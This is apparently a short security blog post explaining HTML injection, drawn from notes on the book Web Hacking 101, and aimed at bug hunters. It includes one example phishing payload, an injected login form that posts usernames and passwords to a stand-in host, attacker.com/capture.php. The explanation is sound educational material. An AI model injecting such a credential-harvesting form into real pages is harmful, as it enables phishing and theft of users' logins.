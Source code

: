 ```yaml
---
title: HTML Injection
date: '2019-02-14'
time: '☕️ 3 min read'
template: "post"
draft: false
slug: "HTML-vulnerability"
category: "Cybersecurity"
tags:
  - "Cybersecurity"
description: "HTML injection is also sometimes referred to as virtual
defacement. This is really an attack made possible by a site allowing a malicious user to
inject HTML into its web page(s) by not handling a user’s input properly."
---
```


This article was done using my notes from a book titled WEB Hacking 101 written by Peter Yaworksi in 2018.

<sub>Yaworksi P. (2018). Web Hacking 101, How To Make Money Hacking Ethically</sub>

## What are HTML injections ?

As said in the summary, Hypertext Markup Language (HTML) injection is also sometimes referred to as virtual
defacement. This attack made possible by a site allowing an attacker to inject HTML into its web page(s) by not handling a user’s input properly.

In other words, an HTML injection vulnerability is caused by receiving HTML, typically via some form
input, which is then rendered as inputted, on the web page.

Since HTML is the language used to define the structure of a web page, if an attacker can
inject HTML, they can essentially change what a browser renders and a web page looks
like.

Sometimes this could result in completely changing the look of a page or in other
cases, creating HTML forms to trick users in hope they use the form to submit sensitive
information (this is referred to as phishing).

For example, if you could inject HTML, you might be able to add a < form> tag to the page, asking the user to re-enter their username
and password like:

```
<form method='POST' action='http://attacker.com/capture.php' id="login-form">
<input type='text' name='username' value=''>
<input type='password' name='password' value=''>
<input type='submit' value='submit'>
</form>

```

However, when submitting this form, the information is actually sent to http://attacker.com
via an action attribute, which sends the information to an attacker’s web page.

## What to be on the look out for ?

HTML Injection presents a vulnerability for sites and developers because it can be used to
phish users and trick them into submitting sensitive information to, or visiting, malicious
websites.

Hackers should be on the lookout for the opportunity to manipulate URL parameters and have
them rendered on the site but keep in mind, not all sites value and pay for these types
of reports.
